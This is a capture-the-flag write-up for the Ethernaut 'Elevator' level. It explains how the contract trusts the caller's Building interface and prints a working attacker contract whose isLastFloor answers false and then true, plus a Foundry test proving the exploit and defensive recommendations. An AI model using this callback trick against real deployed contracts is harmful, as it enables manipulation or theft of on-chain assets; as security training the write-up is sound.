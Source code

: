 # Level 11 - Elevator

## Objectives

- The goal of this challenge is to be able to reach the top floor of the building.

## Contract Overview

The `Elevator` is a pretty simple contract. It defines a `Building` interface at the top.

An interface in Solidity is similar to an abstract contract which lets you interact with other contracts. It can only have the function signature and there can't be any function implementation.

In the `Elevator` contract, we have the `goTo` function that takes a `uint256 _floor`. This function is expected to be called by a smart contract that implements the `Building` interface and taking the address as the address of the `msg.sender`, i.e., attacker address. This building instance is being used inside the function to check if the function `isLastFloor` is returning `true` or `false`.

If the floor is not the top of the building, the function update the `floor` state variable and update also the `top` state variable that should be `false` given that attacker entered the `if` state only because the same `building.isLastFloor` function has returned false just two lines of code above.

This means that the function `isLastFloor()` should return `false` to pass the if conditional and then it should return `true` to set the `top` variable to `true` which will complete the level.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Elevator_slither.png)

## Finding the weak spots

Since we can control the address from which the `Building` instance is created, we can create our own `Building` contract and implement a function with the name of `isLastFloor` following a similar structure as shown in the `Building` interface.

This will allow us to have complete control over the return values from the function `isLastFloor`. To finish this level, we must make the function return `false` when it is run the first time and then it should return `true` if run a second time, all within a single call to the `goTo` function.

```solidity
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) { // <-- this line over here
      floor = _floor;
      top = building.isLastFloor(floor); // <-- this line over here
    }
  }
```

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will inherit the `Building` interface. This contract will implement the `isLastFloor` function in a way that will return forged results. This way attacker will set the boolean top to the value of true.

## Plan of the attack

1. Attacker creates the malicious contract that that will inherit the `Building` interface.
2. Attacker calls `goToFloor()` function on the malicious contract that calls the `Elevator` contracts `goTo(uint256)` function.
3. The `Elevator` contract calls back to the malicious contract because of `isLastFloor()` function.
4. `isLastFloor()` function in the malicious contract returns `false `in the first call and returns `true` in second call.
5. The bool `top` is set to `true`.

## Malicious contract (ElevatorAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract ElevatorAttack is Building {
    Elevator private elevatorContract;
    bool private firstCall;

    constructor(address _elevatorContract) public {
        elevatorContract = Elevator(_elevatorContract);
        firstCall = true;
    }

    function goToFloor() public {
        elevatorContract.goTo(1);
    }

    function isLastFloor(uint) external override returns (bool) {
        if (firstCall) {
            firstCall = false;
        } else {
            firstCall = true;
        }
        return firstCall;
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/11-Elevator.t.sol))

```solidity
 ElevatorAttack elevatorAttack = new ElevatorAttack(
            address(elevatorContract)
        );
        console.log("Is it top level?", elevatorContract.top());
        emit log_string("Starting the exploit...");
        elevatorAttack.goToFloor();

        console.log("Is it top level?", elevatorContract.top());

        // Test assertion
        assertEq(elevatorContract.top(), true);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Elevator.png)

## Recommendations

- Only integrate with external contract that have a verified source code and that you can read what they do and with which other external service they will integrate
- If the external service is upgradable, you must really trust that the owner of the service will not act maliciously in the future
- Even if you trust the external actor, put some safeguards in the contract like some kind of pausable and emergency logic
- Interactions with other contracts always come with a certain level of threat. Because interfaces can contain arbitrary logic, it is especially important to treat them with caution. Contracts that you call may re-enter your contract. It is recommended to apply the checks-effects-interactions pattern to avoid making external calls before making state changes.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-11-solution-elevator)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
